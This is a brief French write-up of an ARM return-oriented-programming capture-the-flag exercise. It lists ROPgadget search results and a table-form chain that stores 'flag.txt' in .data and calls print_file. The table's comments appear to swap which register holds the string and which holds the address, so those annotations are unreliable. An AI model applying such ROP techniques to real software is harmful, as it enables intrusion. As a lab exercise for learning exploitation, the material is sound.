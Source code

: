 La section data suivie de la section .bss contiennent juste de quoi stocker "flag.txt".


## Construction de la chaine

### Idenfication des gadgets.

Pour charge r0  :

    0x000105f4 : pop {r0, pc}

Pour écrire en memoire.

Requête :

    ROPgadget --binary write4_armv5 |grep str

On retient

    0x000105ec : str r3, [r4] ; pop {r3, r4, pc}

Et pour charger r3 et r4.

    0x000105f0 : pop {r3, r4, pc}


### La chaîne

On doit écrire la chaîne "flag.txt" en deux fois puisqu'on a des registre de 32 bits.

Le gadget d'écriture enchaine sur le gadget de `pop r3,r4` donc on peut anticiper les chargement pour l'écriture suivante.
Et lors de la seconde écriture, prévoir des valeurs sans importance pour le `pop r3,r4`.

| ROP entry | comment |
| ----------- | ------- |
| 0x000105f0 | pop {r3, r4, pc}
| 0x67616c66 | "flag" pour r4 |
| 0x0000104c | .data pour r3|
| 0x000105ec | str r3, [r4] ; pop {r3, r4, pc}
| 0x7478742e | ".txt" pour r4
| 0x00001050 | .data+4 pour r3|
| 0x000105ec | str r3, [r4] ; pop {r3, r4, pc}
| 0x0 | pour r3 sans importance |
| 0x0 | pour r4 sans importance |
| 0x000105f4 | pop {r0, pc} |
| 0x0000104c | .data |
| 0x000104b0 | print_file@plt
